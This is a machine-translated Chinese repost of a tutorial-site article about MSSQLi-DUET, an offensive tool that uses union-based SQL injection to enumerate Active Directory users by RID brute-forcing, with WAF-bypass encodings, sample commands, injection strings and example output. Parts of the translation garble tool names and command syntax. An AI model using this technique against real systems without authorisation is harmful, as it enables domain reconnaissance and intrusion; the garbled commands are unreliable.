

# MSSQLi-DUET:基于 MSSQL 注入的域用户枚举工具

> 原文：<https://kalilinuxtutorials.com/mssql-injection/>

MSSQL 的 SQL 注入脚本，基于 RID bruteforcing 从 Active Directory 环境中提取域用户。通过实现 SQLmap 篡改功能，支持各种形式的 WAF 旁路技术。根据情况和环境，用户可以加入额外的防篡改功能。

有两种风格:直接`**Python script**`用于终端使用，或者`**Burp Suite plugin**`用于简单的 GUI 导航。

目前只支持基于联合的注入。需要更多的样本和测试案例来全面测试工具的功能和准确性。如果你遇到不成功的情况，我们非常欢迎你的反馈和评论。

根据你的需要定制脚本和插件应该不会太难。请务必阅读注释部分，了解一些故障排除方法。

**打嗝套件插件**

将插件加载到 Burp Suite 后，右键单击一个请求并将其发送到`**MSSQLi-DUET**`。关于参数等的更多细节描述如下。

该请求将填充到请求窗口中，只需要填写它上面的字段。点击运行后，输出将被放置在结果输出框中，以方便复制粘贴。

**Python 脚本用法**

**脚本帮助**

**python 3 MSSQLi-DUET . py-h**

**用法:** mssqli-duet.py [-h] -i 注入[-e 编码]-t TIME _ DELAY-RID
RID _ RANGE[-SSL SSL]-p 参数[-PROXY PROXY]
[-o OUTFILE]-r REQUEST _ FILE
MSSQLi-DUET–MSSQL(基于注入)域用户枚举工具

**可选参数:**仅提供逃避查询所需的数据。
-e 编码，–ENCODING 编码编码类型:unicode，doubleencode，unmagicquotes
-t TIME_DELAY，–TIME _ DELAY TIME _ DELAY 请求的时间延迟。
-rid RID_RANGE，–RID _ RANGE RID _ RANGE Hypenated RID 到 bruteforce 的范围。例如:1000-1200
-ssl ssl，–SSL SSL HTTPS-p 参数的 SSL 添加标志，–参数参数漏洞参数
-代理代理，–代理代理代理连接字符串。例如:127.0.0.1:8080
-o OUTFILE，–OUTFILE OUTFILE 用户名枚举结果的 OUTFILE。
-r REQUEST_FILE，–REQUEST _ FILE REQUEST _ FILE 从 Burp

**保存的原始请求文件准备被枚举！******

**如何使用？**

在应用程序中识别出基于工会的 SQL 注入后，使用“复制到文件”功能从 Burp Suite 中复制原始请求。

用`-r`标志将保存的请求传递给 DUET。指定易受攻击的参数和注入点。例如，如果参数“元素”易受 SQL 注入影响，`-p`将是“元素”。DUET 将自动构建所有 SQL 注入查询，但是需要提供初始注入的规范。也就是说，如果注入是因为参数数据后的一个撇号而发生的，那么这就是为`-i`参数指定的内容。

例如:test '
test ')
test ")"

**也可阅读-[R00kie-Kr00kie:CVE PoC 漏洞利用-2019-15126 Kr00k 漏洞](https://kalilinuxtutorials.com/r00kie-kr00kie/)**

**例子**

**python 3**mssqli-duet . py-I " carbon ' "-t 0-rid 1000-1200-p element-r test request . req-proxy 127 . 0 . 0 . 1:8080

**收集的请求数据:**
**目标 URL =**http://192 . 168 . 11 . 22/search 2 . PHP？element = carbon
**Method =**GET
**Content-Type =**applation/x-www-form-urlencoded

**[+]确定表格中的列数…**
[！]列数为 3
**[+]确定列类型…**
[！]列类型为空
**[+]发现域名…**
[！]Domain =中微子
**[+]发现域 SID…**
S-1-5-21-4142252318-1896537706-4233180933-
**[+]通过 SID 枚举 Active Directory…**

中微子\HYDROGENDC01$
中微子\DnsAdmins
中微子\DnsUpdateProxy

**注释**

根据发现的列的类型转换和类型限制，可能需要修改脚本。
这包括切换有效负载的列位置的修改，还包括修改查询字符串本身以考虑不会产生错误的列类型。

此外，用于确定列数的逻辑目前还不是最大的，某些比较可能需要注释掉，以确保进行正确的确定。

总的来说，只需看一看以 Burp 形式发送的请求，并根据您所处的 SQL 注入环境的需要修改脚本。

[**Download**](https://github.com/Keramas/mssqli-duet)